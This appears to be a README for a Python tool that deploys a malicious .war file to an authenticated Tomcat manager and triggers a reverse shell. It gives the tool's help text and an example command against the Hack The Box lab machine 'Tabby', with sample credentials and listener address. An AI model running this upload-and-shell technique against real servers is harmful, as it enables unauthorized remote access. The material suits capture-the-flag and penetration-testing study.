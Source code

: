 # Tomcat9 autodeploy war

Python script to auto deploy .war to tomcat-manager, and receive a reverse shell.

## Help

```
usage: autodeploy_war.py [-h] [-t TARGET] [-P PORT] [-p PASSWORD] [-u USER] [-Lp LPORT] [-Lh LHOST]

Tomcat Authenticated .war upload/shell trigger.

optional arguments:
  -h,     --help      show this help message and exit
  
  -t,     --target    TARGET
                      Remote host IP
  
  -P,     --port      PORT
                      Remote port to target
  
  -p,     --password  PASSWORD
                      tomcat admin password.
  
  -u,     --user      USER
                      Tomcat username

  -Lp,    --LPORT     LPORT
                      Local Port for reverse shell
  
  -Lh,    --LHOST     LHOST
                      Local host IP
```

# Usgae

> example usage for HTB machine "Tabby":

`autodeploy_war.py -t 10.10.10.194 -P 8080 -p '$3cureP4s5w0rd123!' -u tomcat -Lp 4444 -Lh 10.10.10.1`
